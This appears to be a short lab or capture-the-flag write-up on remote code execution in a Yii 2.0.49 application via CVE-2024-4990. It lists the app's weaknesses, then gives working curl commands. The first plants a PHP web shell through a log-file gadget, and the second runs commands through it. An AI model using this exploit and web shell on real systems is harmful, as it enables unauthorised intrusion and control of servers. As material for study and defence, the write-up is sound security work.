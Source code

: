 Observation on the application:
- JSON parser for request body is enabled.
- CSRF is disabled.
- Using Yii v2.0.49 (known for CVE-2024-4990).
- Class `app\models\ContactForm` have unsafe `setAttributes` function. Therefore endpoint `/index.php?r=site/contact` is vulnerable.
    All folder have permission mode=777 which means we can write any file.

Here is the step to exploit and gain RCE:

1. Upload a shellcode by utilizing CVE-2024-4990 using class `yii\\log\\Dispatcher` as the gadget.

       curl --location 'http://<host>/index.php?r=site%2Fcontact' \
        --header 'User-Agent: <?php system($_GET[0]); ?>' \
        --header 'Content-Type: application/json' \
        --data '{
            "ContactForm": {
                "as hack": {
                    "__class": "yii\\log\\Dispatcher",
                    "targets": [
                        {
                            "__class": "yii\\log\\FileTarget",
                            "levels": ["trace", "info"],
                            "logFile": "/opt/app/web/hack.php",
                            "categories": ["yii\\*"]
                        }
                    ]
                }
            }
        }

2. Execute the shellcode by visiting the `/hack.php?0=<shell here>` .
   
`curl --location 'http://<host>/hack.php?0=ls -la /' `
   

**Read more**

- https://github.com/advisories/GHSA-cjcc-p67m-7qxm
- https://insomniasec.com/downloads/publications/Practical%20PHP%20Object%20Injection.pdf
- https://huntr.com/bounties/4fbdd965-02b6-42e4-b57b-f98f93415b8f

